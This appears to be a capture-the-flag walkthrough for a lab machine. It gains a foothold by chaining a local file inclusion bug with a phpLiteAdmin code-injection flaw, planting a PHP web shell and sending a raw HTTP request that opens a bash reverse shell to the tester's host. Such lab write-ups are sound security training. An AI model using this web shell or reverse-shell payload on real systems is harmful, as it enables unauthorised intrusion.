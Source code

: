 # Foothold

## www-data

- Logging in using the credentials, we get a page called as notes from http://10.10.10.43/departments/manage.php
![[Pasted image 20210331020703.png]]
- But the link shows a case of local file inclusion `http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`.
- Thus from [[10 - Web Server#Port 443]] we saw a login to phpLiteadmin and a remote PHP code injection bug also. So we can create a database, and create a table called ninevehNotes, and then put `<?php echo system($_REQUEST["sad"])?>` as the field name
- We can rename the database as ninevehNotes.php
- We can see it is stored at `/var/tmp/ninevehNotes.php`
- We can now visit the page from the LFI bug and set our parameter `sad=ls`, this will give us remote code execution.
- We can get a reverse shell by sending the request through burp and running a listener on the local machine.
```bash
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

sad=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.5/9001+0>%261'
```

